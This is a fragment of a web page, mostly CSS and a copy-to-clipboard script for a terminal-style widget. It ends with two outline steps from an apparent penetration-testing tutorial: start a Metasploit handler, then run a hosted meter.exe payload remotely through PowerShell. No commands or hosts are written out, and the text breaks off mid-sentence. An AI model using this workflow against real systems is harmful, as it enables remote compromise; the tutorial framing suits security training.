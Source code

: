 .terminal-dot.yellow { background-color: #ffcc00; }
.terminal-dot.green { background-color: #4cd964; }
.terminal-title {
    color: #a0a0a0;
    font-family: monospace;
    font-weight: bold;
}
.terminal-body {
    padding: 15px;
    background-color: #0a0a0a;
    color: #00ff00;
    font-family: 'Courier New', monospace;
}
.terminal-body pre {
    margin: 0;
    white-space: pre-wrap;
}
.copy-btn {
    position: absolute;
    right: 10px;
    background: none;
    border: none;
    color: #a0a0a0;
    cursor: pointer;
    transition: color 0.3s ease;
}
.copy-btn:hover {
    color: #fff;
}
</style>

<script>
function copyToClipboard(btn) {
    const code = btn.closest('.terminal-container').querySelector('code').textContent;
    navigator.clipboard.writeText(code).then(() => {
        btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><polyline points="20 6 9 17 4 12"></polyline></svg>';
        setTimeout(() => {
            btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect><path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path></svg>';
        }, 1500);
    });
}
</script>

2. Start a multi/handler in Metasploit.

3. Execute the payload remotely on the through PowerShell after hosting the meter.exe via Python http Server:

